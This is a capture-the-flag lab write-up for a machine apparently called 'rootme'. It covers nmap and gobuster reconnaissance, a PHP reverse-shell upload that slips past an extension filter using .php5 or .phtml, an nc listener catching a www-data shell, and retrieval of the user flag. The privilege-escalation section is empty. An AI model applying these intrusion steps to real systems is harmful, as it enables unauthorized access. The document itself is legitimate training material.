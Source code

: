 ## Target info
10.10.182.156

## Missions
- Root the target and find a flag in user.txt
- Escalate privileges and find a flag in root.txt 

## Performance
### Recon

    root@ip-10-10-91-11:~# nmap -sV -sC 10.10.182.156
    Starting Nmap 7.80 ( https://nmap.org ) at 2025-04-30 10:52 BST
    Nmap scan report for 10.10.182.156
    Host is up (0.00080s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
    |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
    |_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: HackIT - Home
    MAC Address: 02:67:2F:32:47:6F (Unknown)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.02 seconds
    root@ip-10-10-91-11:~# 

###  Root the target and find a flag in user.txt
Find directories on the web server using the GoBuster tool and discover the hidden directory

    root@ip-10-10-91-11:~# gobuster dir -u http://10.10.182.156 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgo,html,js,css,py
    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.182.156
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Extensions:              html,js,css,py,php,sh,txt,cgo
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /.html                (Status: 403) [Size: 278]
    /.php                 (Status: 403) [Size: 278]
    /index.php            (Status: 200) [Size: 616]
    /uploads              (Status: 301) [Size: 316] 
    /css                  (Status: 301) [Size: 312] [--> http://10.10.182.156/css/]
    /js                   (Status: 301) [Size: 311] [--> http://10.10.182.156/js/]
    /panel                (Status: 301) [Size: 314] [--> http://10.10.182.156/panel/]

The hidden directory is /panel/

Reverse shell 🐚 Upload

1. **Generate Reverse Shell**
   - Visit: [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
   - Download and extract the php reverse shell .gz
   - Save the shell as `shell.php5` or `shell.phtml` (avoid `.php` as it's blocked).
   - Change the following info in the shell
   
            ip [myip]
            port [9999]

3. **Upload Shell**
   - Go to: `http://10.10.182.156/panel`
   - Upload your renamed shell file.

4. **Start Listener**

        root@ip-10-10-91-11:~# nc -lvnp 9999
        Listening on 0.0.0.0 9999
        Connection received on 10.10.182.156 47768
        Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
         13:31:12 up 17 min,  0 users,  load average: 0.00, 0.03, 0.09
        USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        /bin/sh: 0: can't access tty; job control turned off
        $
   
Find the flag in user.txt
        $ find file ./* | grep "user.txt"
        ...
        ./var/www/user.txt
        $ cat ./var/www/user.txt
        
The result of the cat command will show the flag!

### Escalate privileges and find a flag in root.txt




